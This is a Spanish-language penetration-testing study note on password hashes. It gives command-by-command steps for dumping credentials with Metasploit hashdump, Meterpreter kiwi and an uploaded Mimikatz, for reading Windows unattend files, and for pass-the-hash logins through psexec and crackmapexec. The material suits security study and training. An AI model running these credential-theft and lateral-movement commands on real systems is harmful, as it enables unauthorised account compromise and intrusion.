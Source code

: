 # Password Hashes

Propietario: Adrian Gisbert Cabello

# Linux

- Todas las contraseñas encriptadas de los usuarios están alojadas en el directorio `/etc/shadow`

- El hash va a tener un prefix (con el símbolo del dolar) que significa que tipo de hash es

![Untitled](Password%20Hashes%20aa37e1b128b34498862ad4f980e1f708/Untitled.png)

- También podemos dumpear los hashes de las contraseñas si tenemos una sesión de meterpreter con metasploit:
    - `search hashdump` | `use post/linux/gather/hashdump`
    - En las opciones tendremos que poner	la sesión del meterpreter y le damos a `run`

# Windows

Dos directorios donde podemos encontrar password hashes son:

- `C:\Panther\Unattend.xml`
- `C:\Panther\Autounattend.xml`

Los hashes LM suelen venir en 2 hashes (HASH1:HASH2) mientras que los hashes NTLM suele venir en un hash codificado en MD4

En una consola meterpreter podemos buscar los archivos: `search -f Unattend.xml` o bien entrando el el directorio con `cd`, descargamos el archivo a nuestro equipo con `download` y lo visualizamos

![Untitled](Password%20Hashes%20aa37e1b128b34498862ad4f980e1f708/Untitled%201.png)

- En este caso está encodeado en base64 porque la opción de `Plain text` está en `false`.

Para dumpear hashes de contraseñas podemos usar `kiwi`, en una sesión de meterpreter (antes tenemos que migrar el proceso lsass) escribimos: `load kiwi`:

- El menú de ayuda: `?`
- Para ver todas las credenciales: `creds_all`
- Para ver todos los hashes de passwords: `lsa_dump_sam`
- En algunos casos podemos ve los passwords en texto plano: `lsa_dump_secrets`

También podemos usar `Mimikatz` por si son hashes difíciles:

- Hacemos un upload del archivo mimikatz.exe de nuestra máquina linux al equipo víctima (en este caso Win x64):
- `cd C:\\` (Nos vamos al directorio raíz)
- `mkdir Temp` (Creamos una carpeta temporal para poder trabajar)
- `cd Temp`
- `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` (Directorio donde se encuentra el archivo en nuestra máquina Kali)
- `shell` (Abrimos una consola de comandos)
- `.\mimikatz.exe`
- Una vez estamos dentro de Mimikatz:
    - `lsadump::sam` (Nos da más información que `Kiwi`)
    - `lsadump::secrets`
    - `sekurlsa::logonpasswords` (Ver contraseñas en texto plano, si procede)

Para conectarnos mediante una sesión meterpreter con la técnica Pass-The-Hash Attack, y así pivotar a otro usuario sin tener credenciales en texto plano pero si en formato hash, abrimos metasploit y buscamos `search psexec`, y usamos el módulo `use exploit/windows/smb/psexec`

- `set SMBUser Administrator`
- `set SMBPass aadjrkv3fgdsjjkdbk584gd:e3cf5g89rtdsdfg5t5h5` (Password HASH)
- `set target Command` (Para ver todos los targets `set target`) podemos usar `set target Native \upload` para subir un payload

Si queremos conectarnos a través de crackmapexec con el password hash: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨`

- Podemos ejecutar comandos con el parámetro -x: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨` `-x ¨ipconfig¨`